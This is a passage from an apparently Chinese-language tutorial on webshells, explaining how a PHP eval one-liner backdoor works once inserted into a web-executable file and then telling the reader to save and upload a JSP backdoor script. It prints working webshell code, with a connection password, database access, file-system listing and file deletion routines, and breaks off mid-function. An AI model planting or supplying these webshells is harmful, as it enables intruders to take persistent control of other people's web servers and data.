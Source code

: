 当利用 web 中的漏洞将 <?php @eval($_POST[value]);?> 一句话插入到了可以被黑客访问且能被 web 服务器执行的文件中时，那么我们就可以向此文件提交 post 数据，post 方式提交数据的参数就是这个一句话中的 value，它就称为一句话木马的密码。这样提交的数据如果是正确的 php 语言的语句，那么就可以被一句话木马执行，从而达到黑客的恶意目的。

介绍了一句话木马的原理后，我们再来说下它的优缺点：

****优点****：短小精悍，功能强大。

****缺点********：****容易被安全软件检测出来。为了增强隐蔽性，也出现了各种一句话木马的变形。

#### 一句话木马的变形

黑客的目的，就是想尽办法给目标网站插入一句话木马，可以是一个单独的 .asp 或者是 .php，.aspx 文件，或者是隐藏在某些网页下。

在上边的例子中，php 文件很明显的 eval 可以成为一个静态特征码，webshell 扫描工具可以以此为关键词，扫描到这种木马加以屏蔽。

### JSP 后门脚本

先把下面的代码保存为 one.jsp (该代码的作用是可以在当前目录下生成另外一个指定的文件)，然后上传到服务器

```
<%@page import="java.io.*,java.util.*,java.net.*,java.sql.*,java.text.*"%>
<%!String Pwd = "pass";     //菜刀连接密码
 
    String EC(String s, String c) throws Exception {
        return s;
    }//new String(s.getBytes("ISO-8859-1"),c);}
 
    Connection GC(String s) throws Exception {
        String[] x = s.trim().split("\r\n");
        Class.forName(x[0].trim()).newInstance();
        Connection c = DriverManager.getConnection(x[1].trim());
        if (x.length > 2) {
            c.setCatalog(x[2].trim());
        }
        return c;
    }
    void AA(StringBuffer sb) throws Exception {
        File r[] = File.listRoots();
        for (int i = 0; i < r.length; i++) {
            sb.append(r[i].toString().substring(0, 2));
        }
    }
    void BB(String s, StringBuffer sb) throws Exception {
        File oF = new File(s), l[] = oF.listFiles();
        String sT, sQ, sF = "";
        java.util.Date dt;
        SimpleDateFormat fm = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");
        for (int i = 0; i < l.length; i++) {
            dt = new java.util.Date(l[i].lastModified());
            sT = fm.format(dt);
            sQ = l[i].canRead() ? "R" : "";
            sQ += l[i].canWrite() ? " W" : "";
            if (l[i].isDirectory()) {
                sb.append(l[i].getName() + "/\t" + sT + "\t" + l[i].length()
                        + "\t" + sQ + "\n");
            } else {
                sF += l[i].getName() + "\t" + sT + "\t" + l[i].length() + "\t"
                        + sQ + "\n";
            }
        }
        sb.append(sF);
    }
    void EE(String s) throws Exception {
        File f = new File(s);
        if (f.isDirectory()) {
            File x[] = f.listFiles();
            for (int k = 0; k < x.length; k++) {
```